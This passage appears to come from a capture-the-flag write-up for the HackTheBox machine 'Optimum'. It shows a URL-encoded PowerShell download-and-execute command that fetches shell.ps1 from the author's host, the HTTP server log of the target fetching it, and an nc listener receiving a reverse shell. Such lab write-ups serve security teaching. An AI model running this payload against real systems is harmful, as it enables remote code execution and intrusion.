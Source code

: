 On my browser, I will issue below command which is already `url` encoded `powershell` command

```sh
C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.Webclient).downloadString('http%3a//10.10.16.7%3a80/shell.ps1'
```
![Shell](/assets/img/optimum/shell.png)

When I click send, I see it grabbing the file from my box, not sure why it made those many requests.

```
┌─[george@parrot]─[~/HTB/boxes/optimum/www]
└──╼ $ sudo python3 -m http.server 80
[sudo] password for george:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [17/Oct/2023 19:02:57] "GET /shell.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [17/Oct/2023 19:02:57] "GET /shell.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [17/Oct/2023 19:02:57] "GET /shell.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [17/Oct/2023 19:02:57] "GET /shell.ps1 HTTP/1.1" 200 -
```

And we have a foothold on the box

```
┌─[george@parrot]─[~/HTB]
└──╼ $ rlwrap nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.8] 49162
Windows PowerShell running as user kostas on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

dir


    Directory: C:\Users\kostas\Desktop


Mode                LastWriteTime     Length Name                                                                      
----                -------------     ------ ----                                                                      
-a---         18/3/2017   2:11 ??     760320 hfs.exe                                                                   
-ar--        23/10/2023  11:45 ??         34 user.txt                                                                  
```